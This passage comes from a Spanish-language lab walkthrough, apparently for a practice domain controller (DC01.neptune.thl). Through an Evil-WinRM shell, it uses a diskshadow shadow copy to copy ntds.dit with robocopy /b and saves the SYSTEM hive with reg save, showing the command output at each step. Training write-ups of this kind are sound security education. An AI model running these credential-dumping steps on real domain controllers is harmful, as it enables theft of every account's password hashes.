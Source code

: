 ```batch

	* Shadow copy ID = {5c1763ce-df77-4fb5-87b4-751afe688ffa}		%berserk%
		- Shadow copy set: {24ff74c8-8965-450d-8d1f-5ffc00373b3b}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{c2f9909f-0000-0000-0000-100000000000}\ [C:\]
		- Creation time: 5/15/2025 5:21:47 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
		- Originating machine: DC01.neptune.thl
		- Service machine: DC01.neptune.thl
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %berserk% z:
-> %berserk% = {5c1763ce-df77-4fb5-87b4-751afe688ffa}
The  drive letter is already in use.
```
Observa que se ejecutan los comandos que metimos en el **archivo DSH**. Esto creó la copia del **Disco C** dentro del **Disco Z**, indicado en el **archivo DSH**.

Ahora, copia el **archivo ntds.dit** del **Disco Z** con la herramienta **robocopy**:
```batch
*Evil-WinRM* PS C:\Temp> robocopy /b z:\windows\ntds . ntds.dit
.
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------
...
 99.6%
100%
100%
...
   Speed :           26,504,290 Bytes/sec.
   Speed :            1,516.588 MegaBytes/min.
```

Ya solo falta copiar el **archivo System Hive** con **reg save**:
```batch
*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.
```

Podemos revisar que existen los **archivos ntds.dit y system**:
```batch
*Evil-WinRM* PS C:\Temp> dir
.
    Directory: C:\Temp
.
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/15/2025   5:21 AM            614 2025-05-15_5-21-48_DC01.cab
-a----         5/15/2025   3:35 AM             92 berserk.dsh
-a----         2/26/2025   8:31 PM       16777216 ntds.dit
-a----         5/15/2025   5:23 AM       15773696 system
```
